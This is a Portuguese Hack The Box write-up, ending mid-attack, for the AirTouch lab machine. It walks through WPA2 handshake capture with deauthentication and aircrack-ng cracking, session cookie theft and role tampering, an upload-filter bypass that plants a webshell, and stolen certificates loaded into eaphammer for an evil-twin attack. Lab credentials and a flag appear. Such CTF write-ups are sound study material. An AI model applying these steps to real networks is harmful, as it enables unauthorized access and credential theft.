

# Quebrando a Segmentação: Bypass de VLAN com captura de Handshake WPA2 e ataque Evil-Twin

![[AirTouch.png| A logo da máquina é um sinal de wifi que está espelhado para cima e para baixo]]

## Introdução

Olá mundo!! Bem-vindos à mais um passo na minha jornada no mundo da cibersegurança.

Uma das primeiras coisas que um jovem inconsequente faz quando instala o **Kali Linux** pela primeira vez é: *Tentar hackear a senha do wifi dos vizinhos*. Volte um pouco no tempo, até meados de 2013. O Kali acabava de ser lançado, mas no **YouTube** já havia inúmeros tutoriais de wifi hacking usando o **Backtrack5**. Eu era um desses jovens e vivia frustrado porque onde eu morava não tinha vizinhos com wifi. 

Bom, o mundo mudou desde então e estamos aqui para fazer wifi hacking no [Hackthebox](https://www.hackthebox.com/machines/airtouch)!

`AirTouch` é uma máquina que foi feita pra ser difícil, mas foi classificada como média pela plataforma. Nela começamos encontrando uma porta [[UDP]] aberta e ao nos conectarmos nela, conseguimos as credenciais padrão do usuário `consultant`. Ao vasculhar o diretório desse usuário encontramos um diagrama da topologia de rede wifi, mostrando que estávamos numa rede isolada. No entanto, `consultant` possuía as ferramentas wifi necessárias para fazer capturas de *handshake*, o que nos permitiu conectar com a rede não corporativa, ou rede dos tablets. 

Após conseguir encontrar cookies de sessão no arquivo `.cap` capturado no ataque anterior, conseguimos acesso ao painel adminstrativo do roteador da rede, o que nos permitiu aproveitar de uma vulnerabilidade de **file upload** e acesso direto à arquivos do sistema. Em um desses arquivos conseguimos as credenciais para acessar o roteador remotamente e obter o `root` dele. Em seu diretório `/root`, encontramos os certificados necessários para a realização de um ataque **evil-twin**, onde capturamos a hash `NETNTLM` e quebramos para conseguir a senha da rede corporativa. Também encontramos as credenciais [[SSH]] do roteador. Depois de conseguir o acesso à nova rede, encontramos mais credenciais expostas nos arquivos do `hostapd`. Usando as novas credenciais nos tornamos `admin` e por fim, `root`.

---
## Reconhecimento

### Nmap

Para começar rodei uma varredura de todas as portas com [[NMAP]].

```bash
PORT      STATE  SERVICE REASON         VERSION
22/tcp    open   ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 bd:90:00:15:cf:4b:da:cb:c9:24:05:2b:01:ac:dc:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCt5/czuvlRZ0Ueo5rURjmvlJDipbg3G8orjGjxa9ZuqUM5ZfZPBFKcRFji0HgJc6bQFTXDEXStqG5yxtieKu4LxNWyvuFtFawpQn+4v1qaA5j6E85Zh8qeE993mf+Q/Ea5YfIsZ/otloBj5UsOER8Y+t0/oybf2vVsBc4/925ekSL6Gk3p9BQRs2s4/n33+nEfq2C+bP4F8JkoUZgTPCV8MMat+mAc5t3hxQlUbAe2taiM8+Km8CEFaQkGdZDIPRaeYqLmrmRnNLtaOrYpzsea98Pt/54QICcusk0nsT39cXsbM5mW8bFpeEwXu+w/KRvtRkSg3QRWypilddyUBgEpAU4FEn8ifL2rbNIJ/C4NPNs2O1FzNi+E6twdRz1/p6ln0in3Y5PRXo4Y3Ln/PlqI8V1BrC8zfq7PIPuC4X7Agdq2ktnracnsL8oOhfLRWwrHaPOX2tZGA3dtRs1BiJbU3IiQQOf3IPnnQDc1lgNvlrYz7tFwrIvaSvCJWVZfIE0=
|   256 6e:e2:44:70:3c:6b:00:57:16:66:2f:37:58:be:f5:c0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIFdougpfxwAEIWPEa46kK7yuwcialkBHhi6CR0aNOdjjNuPKkbc8GGATnt0vr5eEoc9lsYRRnBoyhoHZMd4oGw=
|   256 ad:d5:d5:f0:0b:af:b2:11:67:5b:07:5c:8e:85:76:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPp9qQHbtPkcaGbM4SnotIbktxIUaybHBXxDXKgyqYnK
10849/tcp closed unknown reset ttl 63
30677/tcp closed unknown reset ttl 63
43954/tcp closed unknown reset ttl 63
51778/tcp closed unknown reset ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A varredura do `Nmap` retornou apenas a porta **22** aberta. No contexto do **Hackthebox** isso normalmente é uma dica para rodarmos uma varredura `Udp`, conforme já visto na máquina [[Underpass HTB Write-up | Underpass]]. Rodei então uma varredura `Udp` e encontrei a porta **161** aberta.

```bash
PORT      STATE  SERVICE   REASON
161/udp   open   snmp      udp-response ttl 62
```

Me conectei à essa porta usando a ferramenta [[snmp-check]] e consegui algumas informações interessantes.

```bash {12}
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/AirTouch]
└─$ snmp-check -c public -p 161 -v 1  $IP
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.129.36.242:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.129.36.242
  Hostname                      : Consultant
  Description                   : "The default consultant password is: RxBlZhLmOkacNWScmZ6D (change it after use it)"
  Contact                       : admin@AirTouch.htb
  Location                      : "Consultant pc"
  Uptime snmp                   : 00:19:24.60
  Uptime system                 : 00:18:11.92
  System date                   : -
```

Descobri que o domínio era `airtouch.htb`. E também consegui credenciais padrão do usuário `consultant`.

---
## Acesso Inicial

### Shell como Consultant

Usando as credenciais do `consultant`, consegui me conectar via `Ssh`.

```bash
┌──(kali㉿kali)-[~/Boxes/Hackthebox/Medium/AirTouch]
└─$ ssh consultant@AirTouch.htb
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
consultant@airtouch.htb's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

consultant@AirTouch-Consultant:~$
```

No diretório do `consultant`  haviam dois arquivos de imagem:

```bash
-rw-r--r-- 1 consultant consultant 131841 Mar 27  2024 diagram-net.png
-rw-r--r-- 1 consultant consultant 743523 Mar 27  2024 photo_2023-03-01_22-04-52.png
```

Então baixei as imagens para o kali com o comando `scp`.

```bash
scp consultant@AirTouch.htb:/home/consultant/diagram-net.png ~/Downloads/
```

![[diagram-net.png | A imagem mostra a topologia de rede wifi da empresa AirTouch]]

```bash
scp consultant@AirTouch.htb:/home/consultant/photo_2023-03-01_22-04-52.png ~/Downloads/
```

![[photo_2023-03-01_22-04-52.png | A imagem mostra o esboço desenhado à mão da topologia de rede vista anteriormente]]

As imagens mostram a topologia da rede wifi. São três **VLANs** isoladas uma da outra. O objetivo estava bem claro. O pote de ouro estaria na rede corporativa. 

Verificando as permissões **sudo**, vi que o usuário `consultant` podia se tornar `root`.

```bash
consultant@AirTouch-Consultant:~$ sudo -l
Matching Defaults entries for consultant on AirTouch-Consultant:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User consultant may run the following commands on AirTouch-Consultant:
    (ALL) NOPASSWD: ALL
consultant@AirTouch-Consultant:~$ sudo su
root@AirTouch-Consultant:/home/consultant# id
uid=0(root) gid=0(root) groups=0(root)
root@AirTouch-Consultant:/home/consultant# whoami
root
root@AirTouch-Consultant:/home/consultant# cd
root@AirTouch-Consultant:~# ls
eaphammer
```

No diretório `/root/eaphammer` haviam alguns arquivos de configuração e ferramentas de **wifi hacking**. Além disso havia dicionário para ataque de *brute-force* e outras ferramentas de pentest. Provavelmente `consultant` devia estar conduzindo um pentest na infraestrutura. 
### Wifi Hacking

Fazendo um scan das redes wifi disponíveis, descobri que haviam outras além daquelas que estavam listadas nas gravuras de topologia.

```bash
root@AirTouch-Consultant:~/eaphammer# ip link set wlan0 up
root@AirTouch-Consultant:~/eaphammer# iw dev wlan0 scan | grep SSID
	SSID: vodafoneFB6N
		 * Multiple BSSID
		 * SSID List
	SSID: MOVISTAR_FG68
		 * Multiple BSSID
		 * SSID List
	SSID: AirTouch-Internet
		 * Multiple BSSID
		 * SSID List
	SSID: WIFI-JOHN
		 * Multiple BSSID
		 * SSID List
	SSID: MiFibra-24-D4VY
		 * Multiple BSSID
		 * SSID List
	SSID: AirTouch-Office
		 * Multiple BSSID
		 * SSID List
	SSID: AirTouch-Office
		 * Multiple BSSID
		 * SSID List
```

Como o objetivo era atingir a rede corporativa, tentei usar o `eaphammer` para fazer um ataque **evil-twin**. Mas não deu certo porque não tinha os certificados corretos da rede. Então usei o `aircrack-ng` para capturar o *handshake* e fazer um ataque de dicionário para pegar a senha da rede dos tablets, **AirTouch-Internet**.

Então comecei colocando a placa de rede em modo monitor.

```bash {13}
root@AirTouch-Consultant:~/eaphammer# airmon-ng start wlan0
Your kernel has module support but you don't have modprobe installed.
It is highly recommended to install modprobe (typically from kmod).
Your kernel has module support but you don't have modinfo installed.
It is highly recommended to install modinfo (typically from kmod).
Warning: driver detection without modinfo may yield inaccurate results.


PHY	Interface	Driver		Chipset

phy0	wlan0		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211

		(mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
		(mac80211 station mode vif disabled for [phy0]wlan0)
phy1	wlan1		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy2	wlan2		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy3	wlan3		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy4	wlan4		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy5	wlan5		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy6	wlan6		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
```

Depois usei o `airodump-ng` para descobrir o `BSSID` da rede **AirTouch-Internet**.

```bash {8,17,24}
root@AirTouch-Consultant:~/eaphammer# airodump-ng wlan0mon

 CH  7 ][ Elapsed: 54 s ][ 2026-04-16 17:47

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 8A:80:85:A5:72:7A  -28       39        0    0   6   54        CCMP   PSK  WIFI-JOHN
 F0:9F:C2:A3:F1:A7  -28       39        2    0   6   54        CCMP   PSK  AirTouch-Internet
 CE:8C:7D:38:48:57  -28       40        0    0   9   54   WPA2 CCMP   PSK  MiFibra-24-D4VY
 22:A6:74:62:53:7E  -28       78        0    0   3   54        CCMP   PSK  MOVISTAR_FG68
 62:DB:1D:0D:3D:6E  -28      555        0    0   1   54        TKIP   PSK  vodafoneFB6N
 CH  3 ][ Elapsed: 1 min ][ 2026-04-16 17:48

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 8A:80:85:A5:72:7A  -28       77        0    0   6   54        CCMP   PSK  WIFI-JOHN
 F0:9F:C2:A3:F1:A7  -28       77        2    0   6   54        CCMP   PSK  AirTouch-Internet
 CE:8C:7D:38:48:57  -28       76        0    0   9   54   WPA2 CCMP   PSK  MiFibra-24-D4VY
 22:A6:74:62:53:7E  -28      153        0    0   3   54        CCMP   PSK  MOVISTAR_FG68
 62:DB:1D:0D:3D:6E  -28     1079        0    0   1   54        TKIP   PSK  vodafoneFB6N

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 F0:9F:C2:A3:F1:A7  28:6C:07:FE:A3:22  -29   54 -36      0        2
 (not associated)   C8:8A:9A:6F:F9:D2  -29    0 - 1      0        3         AccessLink,AirTouch-Office
 (not associated)   28:6C:07:12:EE:A1  -29    0 - 1      0        2         AirTouch-Office
 (not associated)   28:6C:07:12:EE:F3  -29    0 - 1      0        8         AirTouch-Office
Quitting...
```

Depois de descobrir o `BSSID` da rede **AirTouch-Internet**, usei o `airodump-ng` para capturar o tráfego e salvar no arquivo `captura`.

```bash
root@AirTouch-Consultant:~/eaphammer# airodump-ng -c 6 --bssid F0:9F:C2:A3:F1:A7 -w captura wlan0mon
```

Em outro terminal, eu acessei a conta `consultant` via `Ssh` e usei a ferramenta `aireplay-ng` para desautenticar o usuário e capturar o *handshake* quando autenticasse novamente.

```bash
root@AirTouch-Consultant:~/eaphammer# aireplay-ng -0 5 -a F0:9F:C2:A3:F1:A7 -c 28:6C:07:FE:A3:22 wlan0mon
17:57:02  Waiting for beacon frame (BSSID: F0:9F:C2:A3:F1:A7) on channel 6
17:57:02  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:FE:A3:22] [ 0| 0 ACKs]
17:57:03  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:FE:A3:22] [ 0| 0 ACKs]
17:57:03  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:FE:A3:22] [ 0| 0 ACKs]
17:57:04  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:FE:A3:22] [ 0| 0 ACKs]
17:57:04  Sending 64 directed DeAuth (code 7). STMAC: [28:6C:07:FE:A3:22] [ 0| 0 ACKs]
```

Em seguida consegui capturar o handshake.

```bash {3}
17:51:10  Created capture file "captura-02.cap".

 CH  6 ][ Elapsed: 7 mins ][ 2026-04-16 17:58 ][ WPA handshake: F0:9F:C2:A3:F1:A7

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 F0:9F:C2:A3:F1:A7  -28 100     4382      178    0   6   54        CCMP   PSK  AirTouch-Internet

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 F0:9F:C2:A3:F1:A7  28:6C:07:FE:A3:22  -29   48 -48      0      825  EAPOL  AirTouch-Internet
Quitting...
```

Convenientemente o dicionário `rockyou.txt` estava a disposição no diretório `wordlists/`

```bash
root@AirTouch-Consultant:~/eaphammer# ls wordlists/
example_known_ssids_file.txt  rockyou.txt  rockyou.txt.tar.gz
```

Assim, consegui a senha do wifi com a ferramenta `aircrack-ng`.

```bash
root@AirTouch-Consultant:~/eaphammer# aircrack-ng -w wordlists/rockyou.txt captura-02.cap
Reading packets, please wait...
Opening captura-02.cap
Read 1498 packets.

   #  BSSID              ESSID                     Encryption

   1  F0:9F:C2:A3:F1:A7  AirTouch-Internet         WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening captura-02.cap
Read 1498 packets.

1 potential targets

                               Aircrack-ng 1.6

      [00:00:08] 21592/14344391 keys tested (2805.71 k/s)

      Time left: 1 hour, 25 minutes, 6 seconds                   0.15%

                           KEY FOUND! [ challenge ]


      Master Key     : D1 FF 70 2D CB 11 82 EE C9 E1 89 E1 69 35 55 A0
                       07 DC 1B 21 BE 35 8E 02 B8 75 74 49 7D CF 01 7E

      Transient Key  : EB A2 7F 17 B1 DE 01 3E 40 68 57 00 10 94 14 81
                       C9 61 BB E8 B1 08 18 CC F8 86 A8 99 82 4D 79 F0
                       F2 37 85 A2 3C F9 CE 5B 95 DC 98 78 95 58 AF 8D
                       01 03 B4 EA ED CD 0A 81 FB 45 10 5B 17 BE E3 1E

      EAPOL HMAC     : B0 B7 B6 6E 74 F2 6A 3B 6C 9B E2 CD 85 84 51 AC
```

> [!success] Senha da rede 
> **AirTouch-Internet**: `challenge`.

Para me conectar precisei desligar o modo monitor.

```bash
root@AirTouch-Consultant:~/eaphammer# airmon-ng stop wlan0mon
Your kernel has module support but you don't have modprobe installed.
It is highly recommended to install modprobe (typically from kmod).
Your kernel has module support but you don't have modinfo installed.
It is highly recommended to install modinfo (typically from kmod).
Warning: driver detection without modinfo may yield inaccurate results.

PHY	Interface	Driver		Chipset

phy0	wlan0mon	mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211

		(mac80211 station mode vif enabled on [phy0]wlan0)

		(mac80211 monitor mode vif disabled for [phy0]wlan0mon)
phy1	wlan1		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy2	wlan2		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy3	wlan3		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy4	wlan4		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy5	wlan5		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
phy6	wlan6		mac80211_hwsim	Software simulator of 802.11 radio(s) for mac80211
```

E daí configurar o `wpa_supplicant`.

```bash
root@AirTouch-Consultant:~/eaphammer# wpa_passphrase "AirTouch-Internet" "challenge" > wpa.conf
root@AirTouch-Consultant:~/eaphammer# wpa_supplicant -B -i wlan0 -c wpa.conf
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
```

E então pegar um endereço IP com `dhclient`.

```bash {15}
root@AirTouch-Consultant:~/eaphammer# dhclient wlan0
root@AirTouch-Consultant:~/eaphammer# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0@if29: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether ea:d5:33:69:fd:ea brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.20.1.2/24 brd 172.20.1.255 scope global eth0
       valid_lft forever preferred_lft forever
4: wlan0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 42:00:00:00:00:00 brd ff:ff:ff:ff:ff:ff
    inet 192.168.3.48/24 brd 192.168.3.255 scope global dynamic wlan0
       valid_lft 86393sec preferred_lft 86393sec
    inet6 fe80::4000:ff:fe00:0/64 scope link
       valid_lft forever preferred_lft forever
8: wlan1: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:01:00 brd ff:ff:ff:ff:ff:ff
9: wlan2: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:02:00 brd ff:ff:ff:ff:ff:ff
10: wlan3: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:03:00 brd ff:ff:ff:ff:ff:ff
11: wlan4: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:04:00 brd ff:ff:ff:ff:ff:ff
12: wlan5: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:05:00 brd ff:ff:ff:ff:ff:ff
13: wlan6: <BROADCAST,MULTICAST> mtu 1500 qdisc noop state DOWN group default qlen 1000
    link/ether 02:00:00:00:06:00 brd ff:ff:ff:ff:ff:ff
```

### Shell como user

Peguei o IP `192.168.3.48`, indicando que estava conectado na rede dos tablets de acordo com o diagrama que consegui no início. Felizmente tem um `nmap` no laptop do `consultant`, então rodei uma varredura de portas na rede toda.

```bash {9,10}
root@AirTouch-Consultant:~/eaphammer# nmap -Pn -F 192.168.3.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2026-04-16 18:24 UTC
Nmap scan report for 192.168.3.1
Host is up (0.000019s latency).
Not shown: 97 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
MAC Address: F0:9F:C2:A3:F1:A7 (Ubiquiti Networks)

Nmap scan report for 192.168.3.48
Host is up (0.0000050s latency).
Not shown: 99 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (2 hosts up) scanned in 26.20 seconds
```

A porta **80** [[HTTP]]  do gateway estava aberta. Então fiz *porforward* para poder acessar do meu navegador. Acessando a página, encontrei uma página de login.

![[airtouch-0.png | A imagem mostra a página de login]]

Mas eu não tinha as credenciais e as credenciais padrão do **Ubiquiti**, como `ubnt : ubnt` ou `ui : ui` não funcionaram . A única informação que eu tinha era o arquivo `.cap` do `airodump-ng`. Para analisar o arquivo usei a senha `challenge` para descriptografar.

>[!note] Descriptografando no Wireshark
>No `wireshark` clique em: **Edit** --> **Preferences** --> **Protocols** --> **IEEE802.11** --> **Decryption Keys**
>Em `key-type` escolha **wpa-pwd** e em `key` coloque **challenge:AirTouch-Internet**


![[airtouch-08.png]]

Ao analisar as requisições `Http`, encontrei **cookies de sessão**.

![[airtouch-09.png]]

Em seguida, editei meus cookies na página de login para acessar a dashboard.

![[airtouch-03.png]]

Mas não conseguia mexer em nada. Prestando mais atenção na mensagem de boas-vindas, eu era o usuário `user`. Eu não tinha privilégios de `admin`. Então editei a `Role` de `user` para `admin`.

![[airtouch-04.png]]

Isso me deu acesso ao botão de **upload**. Havia uma restrição para arquivos `php` e `html`. No entanto podia ser facilmente bypassado com extensões `.php00%` ou `.phtml`.

![[airtouch-05.png]]

Assim, upei uma **webshell** simples com sucesso.

![[airtouch-06.png]]

Havia alguns arquivos no diretório atual, um deles sendo o `login.php`. Nesse arquivo encontrei credenciais hardcoded.

![[airtouch-07.png]]

Também havia um usuário `user` em `/home/user`.

Testando a senha do `admin` com o usuário `user` via `Ssh` consegui acessar o gateway. 

```bash
root@AirTouch-Consultant:~/eaphammer# ssh user@192.168.3.1
The authenticity of host '192.168.3.1 (192.168.3.1)' can't be established.
ECDSA key fingerprint is SHA256:++nw1pytCTTnPb2ngccd1CzlYaYUoTF8GmQ3a3QHnaU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.3.1' (ECDSA) to the list of known hosts.
user@192.168.3.1's password:
Permission denied, please try again.
user@192.168.3.1's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

user@AirTouch-AP-PSK:~$
```

---
## Escalonamento de Privilégios

### Shell como remote

Da mesma forma que o `consultant`, esse usuário também podia se tornar `root` usando o comando `sudo -i`.

```bash
user@AirTouch-AP-PSK:~$ sudo -l
Matching Defaults entries for user on AirTouch-AP-PSK:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on AirTouch-AP-PSK:
    (ALL) NOPASSWD: ALL
```

Depois de me tornar `root`, listei os arquivos do diretório `/root`. Aproveitei para pegar a **flag de usuário** que estava lá.

```bash {16}
root@AirTouch-AP-PSK:~# ls -la
total 44
drwx------ 1 root root 4096 Apr 16 22:35 .
drwxr-xr-x 1 root root 4096 Apr 16 22:35 ..
lrwxrwxrwx 1 root root    9 Nov 24  2024 .bash_history -> /dev/null
-rw-r--r-- 1 root root 3106 Dec  5  2019 .bashrc
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
drwxr-xr-x 2 root root 4096 Mar 27  2024 certs-backup
-rwxr-xr-x 1 root root    0 Mar 27  2024 cronAPs.sh
drwxr-xr-x 1 root root 4096 Apr 16 22:35 psk
-rw-r--r-- 1 root root  364 Nov 24  2024 send_certs.sh
-rwxr-xr-x 1 root root 1963 Mar 27  2024 start.sh
-rw-r----- 1 root 1001   33 Apr 16 22:35 user.txt
-rw-r--r-- 1 root root  319 Mar 27  2024 wlan_config_aps
root@AirTouch-AP-PSK:~# cat user.txt
f724d9df5a284a6d751b3816ff0c9e34
```


Entre os arquivos também havia um chamado `send_certs.sh`. Nele havia mais credenciais hardcoded.

```bash {8,9}
root@AirTouch-AP-PSK:~# cat send_certs.sh
#!/bin/bash

# DO NOT COPY
# Script to sync certs-backup folder to AirTouch-office.

# Define variables
REMOTE_USER="remote"
REMOTE_PASSWORD="xGgWEwqUpfoOVsLeROeG"
REMOTE_PATH="~/certs-backup/"
LOCAL_FOLDER="/root/certs-backup/"

# Use sshpass to send the folder via SCP
sshpass -p "$REMOTE_PASSWORD" scp -r "$LOCAL_FOLDER" "$REMOTE_USER@10.10.10.1:$REMOTE_PATH"
```

Aqui estava o bilhete premiado para chegar na rede corporativa! No entanto eu ainda estava em uma **VLAN** separada. 

No mesmo arquivo havia a variável `LOCAL_FOLDER="/root/certs-backup/"`, o que indicava que os certificados eram copiados desse diretório e eram enviados para o diretório `/home/certs-backup/` do gateway da rede corporativa.

Assim usei o comando `scp` para copiar esse diretório para o laptop do usuário `consultant`. Depois importei os certificados corretos para a ferramenta `eaphammer`.

```bash
./eaphammer --cert-wizard import --ca-cert certs-backup/ca.crt --server-cert certs-backup/server.crt --private-key certs-backup/server.key
```

Rodando `iw dev wlan0 scan` novamente, consegui mais informações sobre a rede `AirTouch-Office`. Por exemplo, o `BSSID` da rede e o canal **44**.

Depois ativei o modo monitor e rodei o `airodump-ng`  no canal 44 para pegar o `MAC` dos clientes conectados.

```bash {13,14}
root@AirTouch-Consultant:~/eaphammer# airodump-ng --channel 44 wlan0mon

 CH 44 ][ Elapsed: 18 s ][ 2026-04-17 21:54 ][ WPA handshake: AC:8B:A9:AA:3F:D2

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 AC:8B:A9:F3:A1:13  -28 100      202        0    0  44   54e  WPA2 CCMP   MGT  AirTouch-Office
 AC:8B:A9:AA:3F:D2  -28 100      202       50    0  44   54e  WPA2 CCMP   MGT  AirTouch-Office

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 AC:8B:A9:AA:3F:D2  C8:8A:9A:6F:F9:D2  -29    0 -12e     0        1
 AC:8B:A9:AA:3F:D2  28:6C:07:12:EE:A1  -29    6e-36e     0       37  PMKID  AirTouch-Office
 AC:8B:A9:AA:3F:D2  28:6C:07:12:EE:F3  -29    6e-54e     0       35  PMKID  AirTouch-Office
Quitting...
```

Então rodei o `eaphammer` e em outro terminal usei novamente o `aireplay-ng` para desautenticar os clientes e capturar a hash `NETNTLM`. 

```bash {70}
root@AirTouch-Consultant:~/eaphammer# ./eaphammer --bssid AC:8B:A9:AA:3F:D2 --essid AirTouch-Office --channel 44 --interface wlan0 --auth wpa-eap --creds --capture-wpa-handshakes yes

                     .__
  ____ _____  ______ |  |__ _____    _____   _____   ___________
_/ __ \\__  \ \____ \|  |  \\__  \  /     \ /     \_/ __ \_  __ \
\  ___/ / __ \|  |_> >   Y  \/ __ \|  Y Y  \  Y Y  \  ___/|  | \/
 \___  >____  /   __/|___|  (____  /__|_|  /__|_|  /\___  >__|
     \/     \/|__|        \/     \/      \/      \/     \/


